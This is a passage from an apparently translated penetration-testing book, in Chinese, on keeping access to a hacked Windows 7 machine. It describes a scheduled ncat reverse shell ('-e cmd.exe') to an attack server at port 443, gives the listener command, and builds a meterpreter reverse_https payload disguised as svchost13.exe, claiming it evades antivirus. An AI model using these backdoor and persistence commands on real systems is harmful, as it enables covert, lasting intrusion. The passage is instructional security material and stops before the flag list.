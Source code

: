 这将设置作业在每天下午 5:00 运行。它将使用以下变量运行`ncat.exe`可执行文件。正在调用端口`443`上的攻击服务器`128.199.190.69`。`–ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

在下午 5:00 之前，我们使用各种枢轴登录到我们的邪恶服务器，以监听模式启动 Ncat，等待下午 5:00 到来。

注意，我们在这里连接到`//rogue3`并运行命令：

```
ncat -nvlp 443 –ssl

```

`-n`标志告诉系统不要使用 DNS。`-v`告诉系统将输出设置为详细，以便您可以看到输入和输出。`-l`让 Ncat 听。`-p`告知 Ncat 监听端口`443`，而`–ssl`告知 Ncat 使用 SSL 加密会话：

![Maintaining access with Ncat](img/image00932.jpeg)

现在，我们已通过完全管理员权限连接到被黑客攻击的 Windows 7 计算机，该漏洞将在每天下午 5:00 使用，而不会对网络进行任何进一步的攻击。

### 提示

**警告！**

真正的攻击者会将 Ncat 的名称更改为文件系统中更模糊、更难以识别的名称。小心两个`calc.exe`或 `notepad.exe`生活在你的系统中。一个在一个陌生的地方很可能是 Ncat 或其他类型的利用，就像我们将要建立的下一个。

## 用 Metasploit 打电话回家

嗯，那是老式的方法。现在，让我们使用 Metasploit 的工具做同样的事情。我们将在我们邪恶的服务器`//rogue3`上加载 Metasploit，让我们的受害者机器连接到该机器上的仪表外壳。我们将从早期的内部黑客中构建并上传此漏洞。除了**msfconsole**之外，我们还将使用 Metasploit 工具包中的其他一些工具。Metasploit 附带一个独立的应用，用于构建自定义漏洞利用和外壳代码。此工具名为**msfvenom**，我们将使用它构建一个漏洞。完全使用 msfvenom 本身可以填满一整章，超出了本书的范围；因此，在这里，我们将构建一个反向 http 攻击，使用最常见的标志生成可执行文件。我们将通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe

```

**Msfvenom**是一款功能强大且可配置的工具。它有能力建立自定义漏洞攻击，将绕过任何反病毒软件。反病毒软件的工作原理是查看文件的签名。Msfvenom 能够以防病毒软件无法检测到的方式对漏洞进行编码。这是一种将漏洞隐藏为另一个常见可执行文件（如记事本）的情况。Msfvenom 可以向可执行文件添加 NOPs 或 null 代码，使其与原始文件大小相同。很可怕，不是吗？

旗帜列表如下：
